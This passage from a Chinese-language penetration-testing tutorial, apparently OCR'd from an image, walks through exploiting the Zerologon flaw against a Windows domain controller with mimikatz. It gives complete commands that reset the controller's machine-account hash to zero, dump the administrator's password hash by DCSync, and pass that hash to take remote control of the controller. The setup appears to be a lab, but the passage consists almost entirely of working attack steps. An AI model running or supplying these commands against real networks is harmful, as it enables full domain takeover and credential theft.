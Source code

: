 ##### 2）攻击机不在域中

如果当前主机不在域环境中的话，可以使用如下命令进行重置，target 参数这里需要指定域控的 ip。

```
mimikatz.exe "lsadump::zerologon /target:10.211.55.4 /ntlm /null /account:AD01$ /exploit" "exit"
```

如图所示，使用 mimikatz 重置域控 10.211.55.4 的机器账号哈希为 0 成功。

![截图](fd38c66c43f39f1330c1138d7aaededb.png)

#### （3）远程连接域控

这里使用 mimikatz 利用 DCSync 导出哈希的过程需要注意，由于/dc 参数后面要跟域名格式的 FQDN。因此如果当前机器不在域内的话，需要将当前机器的DNS 指定为域控，这样才能解析。如果当前机器在域内的话，则不用任何配置，默认即可

使用 mimikatz 执行如下命令，先导出域管理员 administrator 的密码哈希，然后使用域管理员 administrator 的密码哈希远程连接域控！

```
#导出指定 administrator 用户哈希
mimikatz.exe "lsadump::dcsync /csv /domain:xie.com /dc:AD01.xie.com /user:administrator /authuser:AD01$ /authpassword:\"\" /authntlm" "exit"
lsadump::dcsync /domain:xie.com /dc:AD01.xie.com /user:administrator /authuser:AD01$ /authpassword:"" /authntlm

#然后用 administrator 用户的哈希连接域控，这一步需要 privilege::debug 提权
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.211.55. 4 /rc4:33e17aa21ccc6ab0e6ff30eecb918dfb" "exit"
```
